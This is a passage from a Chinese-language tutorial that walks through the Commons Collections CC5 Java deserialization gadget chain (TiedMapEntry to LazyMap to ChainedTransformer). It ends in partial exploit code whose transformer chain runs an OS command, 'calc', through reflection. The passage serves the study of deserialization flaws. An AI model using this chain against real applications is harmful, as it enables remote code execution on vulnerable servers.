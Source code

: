 **2. TiedMapEntry.toString()**

在 TiedMapEntry.toSring() 方法中调用了 getValue() 方法用于获取当前 entry 的 value，而在这个方法中调用了 map.get() 方法。map 是 TiedMapEntry 的一个常量成员属性，是我们可控的，在链子中需要让 map 为 LazyMap 类对象

![](https://i.imgur.com/9yioRhs.png)

![](https://i.imgur.com/ekwWAW1.png)

![](https://i.imgur.com/CrkW0T7.png)


3. LazyMap.get()

紧接着上图我们现在就调用到了 LazyMap.get() 方法，后续的命令执行就和 CC1 一样了，故不细说，直接给出相关代码：

![](https://i.imgur.com/7wUzDCx.png)

`Factory` 是该类一个常量成员属性，在链子中让其为 ChainedTransformer。
![](https://i.imgur.com/tHLCY7P.png)

## CC5 EXP 
### 自写的 EXP
- 这里 LazyMap 的后面半条链子是可以用的，我们直接把 CC1 那一部分的拿进来。
```java=
package security.java.cc5;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, NoSuchFieldException, IOException, ClassNotFoundException {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);

//        Class<LazyMap> lazyMapClass = LazyMap.class;
//        Method lazyGetMethod = lazyMapClass.getDeclaredMethod("get", Object.class);
//        lazyGetMethod.setAccessible(true);
//        lazyGetMethod.invoke(decorateMap, chainedTransformer);

```